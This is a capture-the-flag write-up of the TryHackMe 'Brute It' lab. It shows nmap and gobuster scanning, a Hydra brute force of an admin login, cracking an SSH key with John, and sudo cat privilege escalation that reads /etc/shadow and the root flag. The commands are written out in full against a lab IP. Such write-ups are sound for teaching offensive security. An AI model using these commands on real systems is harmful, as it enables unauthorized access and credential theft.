 ```yaml
---
title: Try Hack Me - Brute It
date: 2020-11-30 01:17 +0300
categories: [Try Hack Me]
<! -- tags: [linux,brute force,hash cracking,privilege escalation]     # TAG names should always be lowercase -->
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- Brute-force
- Hash cracking
- Privilege escalation

# Nmap

First of all let's scan our machine and see what we have

<pre class="highlighter-rouge highlight">
nmap -sC -sV -O 10.10.238.144

Nmap scan report for 10.10.238.144
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/29%OT=22%CT=1%CU=35597%PV=Y%DS=2%DC=I%G=Y%TM=5FC404
OS:77%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.01 seconds
</pre>

So I will go to web page and try to find something interesting.

# Gobuster

<pre>
gobuster dir -w /opt/directory-list-lowercase-2.3-medium.txt -u http://10.10.238.144

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.144
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
				 Starting gobuster
===============================================================
/admin (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/admin</code>

<img src="/assets/img/bruteit_img/admin.png">

# Hydra
Turn on Hydra to crack password!

<pre>
hydra -l admin -P /opt/rockyou.txt 10.10.238.144 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
[80][http-post-form] host: 10.10.238.144   login: admin   password: ******
</pre>

This link helped me with hydra usage <a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a>

We got the username and password. 
Sign in to website and we get'll the Web flag.

<img src="/assets/img/bruteit_img/admin_panel.png">

Also we can see RSA private flag. After googling i found that we need it for conneting to ssh. I copied it and named <code class="language-plaintext highlighter-rouge">id_rsa</code>. We must find the password to connect to ssh.

Let's brute it with John!

# John The Ripper

This link helped me with John and cracking password with RSA private key 
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.238.144</pre>

Now you can read User.txt

<img src="/assets/img/bruteit_img/user_flag.png">

# Privilage Escalation
Let's see what we can do with john account
<pre>sudo -l</pre>

John user can use <code class="language-plaintext highlighter-rouge">cat</code>

<pre>
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
</pre>
I went to <a href="https://gtfobins.github.io/gtfobins/cat/">gtfobins</a>

Hmmmm...I have no clue. And this guide - <a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a> shows that you can use <code class="language-plaintext highlighter-rouge">cat</code> to grab <code class="language-plaintext highlighter-rouge">/etc/shadow</code> and crack with John. You can do like author. 

I copied <code class="language-plaintext highlighter-rouge">etc/passwd</code> and cracked with John.

<pre>
LFILE=/etc/shadow
cat $LFILE
</pre>

<pre>
LFILE=/etc/passwd
cat $LFILE
</pre>

This article helped me with John and cracking password 
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>

After that I got the password and read the root flag
<img src="/assets/img/bruteit_img/rootflag.png">

We also could read the root flag without cracking password.
<pre>
LFILE=/root/root.txt
cat $LFILE
</pre>


# Userful for me references

<div><a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a></div>
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>
<div><a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a></div>
